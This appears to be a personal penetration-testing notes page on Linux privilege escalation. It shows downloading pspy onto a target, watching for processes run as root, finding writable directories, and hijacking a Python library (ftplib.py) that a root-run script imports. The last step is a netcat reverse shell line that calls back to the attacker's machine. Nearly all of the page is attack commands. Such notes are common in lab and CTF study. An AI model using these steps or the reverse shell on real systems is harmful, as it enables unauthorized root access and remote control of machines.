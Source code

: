 32 or 64?
```bash - target
uname -a
```

32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

transfer to Target

![[Python#Server]]

```bash - target
chmod +x pspy64
```

```bash - target
./pspy64
```

Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.

![[Pasted image 20211229224921.png | 1000]]

```bash - target
find / -writable -type d 2>/dev/null
```

![[Pasted image 20221110104834.png]]

```bash - target
cat /opt/ftpclient/ftpclient.py
```

```bash - kali
cd /usr/lib/python2.7
```

Check if we have read / write privs:
```bash - kali
ls -lah ftplib.py
```

Open the file, and put in a reverse shell command:
```bash - kali
nano ftplib.py
```

![[rlwrap]]

```python - kali
os.system("nc -e /bin/bash $KALI 443")
```

![[Pasted image 20211229225151.png]]










